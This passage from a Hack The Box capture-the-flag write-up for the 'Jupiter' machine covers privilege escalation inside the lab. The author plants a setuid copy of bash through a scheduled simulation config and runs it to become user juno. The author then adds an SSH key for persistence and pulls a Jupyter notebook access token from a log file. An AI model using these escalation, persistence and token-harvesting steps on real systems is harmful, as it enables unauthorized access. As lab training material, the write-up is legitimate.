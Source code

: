 ```bash
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s" > network-simulation.yml
```

Wait a little bit of time and run `bash -p` to gain shell as the owner: juno.

```bash
postgres@jupiter:/dev/shm$ /tmp/bash -p
/tmp/bash -p
ls
network-simulation.yml
network-simulation.yml.1
PostgreSQL.3401771544
shadow.data
whoami
juno
```

And so I never have to execute that chain of exploits to gain user again I added an ssh key, which in a few more sentences you'll find was important.


```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Jupiter]
└──╼ $ssh juno@jupiter.htb -i juno
The authenticity of host 'jupiter.htb (10.10.11.216)' can't be established.
ECDSA key fingerprint is SHA256:CambiqQQfxj+zMMNNKGU+11Xrc9my7zEvX0GSfzRJVM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'jupiter.htb,10.10.11.216' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)

--------------
Last login: Wed Jun  7 15:13:15 2023 from 10.10.14.23
juno@jupiter:~$ cat user.txt
e33ed06b07----------------------
```


<h1>User as jovian</h1>

<h2>jupyter</h2>

While enumerating before I came across a directory of `/opt/solar-flares` that contains scripts and logs, and I check a log to find a potential token.

```bash
juno@jupiter:/opt/solar-flares/logs$ cat jupyter-2023-03-08-14.log 
[W 13:14:40.718 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 13:14:40.727 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 13:14:40.727 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 13:14:40.727 NotebookApp] http://localhost:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
[I 13:14:40.727 NotebookApp]  or http://127.0.0.1:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
[I 13:14:40.727 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 13:14:40.729 NotebookApp] No web browser found: could not locate runnable browser.
[C 13:14:40.729 NotebookApp] 
    
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-865-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
     or http://127.0.0.1:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60

```
